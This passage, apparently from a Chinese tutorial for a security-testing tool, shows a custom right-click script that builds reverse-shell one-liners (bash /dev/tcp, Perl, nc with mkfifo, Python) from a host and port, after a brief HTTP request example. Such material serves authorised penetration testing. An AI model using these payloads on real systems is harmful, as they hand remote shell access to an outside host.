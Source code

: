 其CL显然不正确，调用修复数据地功能之后修复如下  
```

```  
```
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: www.example.com
Content-Length: 9


key=value
```  
```


```  
  
**场景二：自定义右键菜单执行**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
  
自定义右键菜单执行可以通过勾选来选择处理某段数据。  
  
**关卡1：反弹shell**  
  
在安全测试过程中，反弹shell命令很常用的，可以通过这个功能来讲生成反弹shell命令自动化  
```
handle = func(origin /*string*/) {
    host, port, _ = str.ParseStringToHostPort(origin)
    if port <= 0 {
        port = 4444
    }
    if host == "" {
        host = origin
    }
    
    # handle your origin str
    lines = make([]string)
    add = func(s) {
        lines = append(lines, s)
    }
    add("# Bash Linux")
    add(sprintf(`bash -i >& /dev/tcp/%v/%v 0>&1`, host, port))
    add("")

    add("# Perl")
    add(sprintf(`perl -e 'use Socket;$i="%v";$p=%v;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`, host, port))
    add(sprintf(`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"%v:%v");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`, host, port))
    add("")
    
    add("# NC")
    add(sprintf(`nc -e /bin/sh %v %v`, host, port))
    add(sprintf(`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %v %v >/tmp/f`, host, port))

    add("# Python -C")
    add(sprintf(`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%v",%v));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`, host, port))
    add(sprintf(`python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('%v',%v))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"`, host, port))
    add("")
```